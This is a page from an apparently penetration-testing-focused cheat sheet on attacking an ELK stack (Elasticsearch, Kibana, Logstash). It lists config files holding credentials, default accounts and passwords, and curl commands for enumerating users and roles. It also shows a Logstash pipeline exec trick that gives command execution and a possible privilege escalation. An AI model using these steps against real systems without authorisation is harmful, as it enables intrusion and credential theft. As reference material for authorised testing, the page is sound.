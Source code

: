 ```yaml
---
title: ELK Stack
category: Exploitation
order: 103
---
```


**Important Files:**

These files could contain credentials:

* Elasticsearch configuration: /etc/elasticsearch/elasticsearch.yml
* On elasticsearch system (user roles): /etc/elasticsearch/users_roles
* Kibana configuration: /etc/kibana/kibana.yml
* Logstash configuration: /etc/logstash/logstash.yml
* Filebeat configuration: /etc/filebeat/filebeat.yml

**Elasticsearch**

Test if authentication is enabled/disabled:

{% highlight bash %}
curl -X GET "ELASTICSEARCH-SERVER:9200/"
{
  "name" : "userver",
  "cluster_name" : "elasticsearch",
  "cluster_uuid" : "lZNH15okQPWfNHp-Aks0OQ",
  "version" : {
    "number" : "7.9.3",
    "build_flavor" : "default",
    "build_type" : "deb",
    "build_hash" : "c4138e51121ef06a6404866cddc601906fe5c868",
    "build_date" : "2020-10-16T10:36:16.141335Z",
    "build_snapshot" : false,
    "lucene_version" : "8.6.2",
    "minimum_wire_compatibility_version" : "6.8.0",
    "minimum_index_compatibility_version" : "6.0.0-beta1"
  },
  "tagline" : "You Know, for Search"
}

curl -X GET "ELASTICSEARCH-SERVER:9200/_xpack/security/user"
//Disabled
{"error":{"root_cause":[{"type":"exception","reason":"Security must be explicitly enabled when using a [basic] license. Enable security by setting [xpack.security.enabled] to [true] in the elasticsearch.yml file and restart the node."}],"type":"exception","reason":"Security must be explicitly enabled when using a [basic] license. Enable security by setting [xpack.security.enabled] to [true] in the elasticsearch.yml file and restart the node."},"status":500}
//enabled
{"error":{"root_cause":[{"type":"security_exception","reason":"missing authentication credentials for REST request [/]","header":{"WWW-Authenticate":"Basic realm=\"security\" charset=\"UTF-8\""}}],"type":"security_exception","reason":"missing authentication credentials for REST request [/]","header":{"WWW-Authenticate":"Basic realm=\"security\" charset=\"UTF-8\""}},"status":401}
{% endhighlight %}

Default Accounts:

* elastic (This is the superuser! Older versions of Elasticsearch have the default password changeme for this user)
* kibana_system
* logstash_system
* beats_system
* apm_system
* remote_monitoring_user
* _anonymous (if version was returned but authentication is enabled)


Using the API key:

{% highlight bash %}
curl -H "Authorization: ApiKey <API-KEY>" ELASTICSEARCH-SERVER:9200/
{% endhighlight %}

Get more information about the rights of an user:

{% highlight bash %}
curl -X GET "ELASTICSEARCH-SERVER:9200/_security/user/<USERNAME>"
{% endhighlight %}

List all users on the system:

{% highlight bash %}
curl -X GET "ELASTICSEARCH-SERVER:9200/_security/user"
{% endhighlight %}

List all roles on the system:

{% highlight bash %}
curl -X GET "ELASTICSEARCH-SERVER:9200/_security/role
{% endhighlight %}

**Kaibana**

Uses the same credentials as elasticsearch.

Post-Access Exfiltration:

* Try to access data from Elasticsearch
* Check if you can access the users panel and if you can edit, delete or create new users, roles or API Keys (Stack Management -> Users/Roles/API Keys)
* Check the current version for vulnerabilities (There was a RCE vulnerability in 2019 for Kibana versions < 6.6.0

**Logstash**


* Finding credentials in pipelines (/etc/logstash/pipelines.yml):

{% highlight bash %}
# This file is where you define your pipelines. You can define multiple.
# For more information on multiple pipelines, see the documentation:
# https://www.elastic.co/guide/en/logstash/current/multiple-pipelines.html

- pipeline.id: main
  path.config: "/etc/logstash/conf.d/*.conf"
- pipeline.id: example
  path.config: "/usr/share/logstash/pipeline/1*.conf"
  pipeline.workers: 6
{% endhighlight %}

The .conf files contain the configured pipelines which may contain credentials for an Elasticsearch instance.  Since logstash has to write data the priviledges are often higher.

* Check the priviledges of the logstach user and see if it is worth trying to privesc
* Check if you can restart the logstash service, or /etc/logstash/logstash.yml contains the entry <code>config.reload.automatic: true</code>
* If so, check for write permissions on a pipeline config or if /etc/logstash/pipelines.yml contains wildcards for a folder you can write in. Example of whoami command executed every 120 seconds with the output put to /tmp/output.log:

{% highlight bash %}
input {
  exec {
    command => "whoami"
    interval => 120
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}
{% endhighlight %}

**References**
* [insinuator](https://insinuator.net/2021/01/pentesting-the-elk-stack/)


